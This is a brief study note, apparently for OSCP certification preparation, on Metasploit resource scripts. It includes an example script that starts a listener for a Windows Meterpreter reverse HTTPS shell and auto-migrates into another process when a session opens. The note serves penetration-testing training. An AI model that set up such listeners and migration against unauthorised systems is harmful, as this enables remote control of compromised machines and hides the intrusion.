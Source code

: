 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/l-metasploit-framework/7-automated-resource-scripts/"}
---
```


----------------
- Set global variables in MSF:
```
setg LHOST <ip>

unsetg LHOST
```

- Pre-configured Metasploit resource scripts:
	/usr/share/metasploit-framework/scripts/resource

- Run resource scripts written in Ruby:
```
sudo msfconsole -r script.rc
```

- Example-script:
	- run -z stops from automatically interacting with session
	- ExitOnSession closes listener on opened session
	- migrate module migrates to notepad.exe as default
```
#Set up listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

#Run when session is opened
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
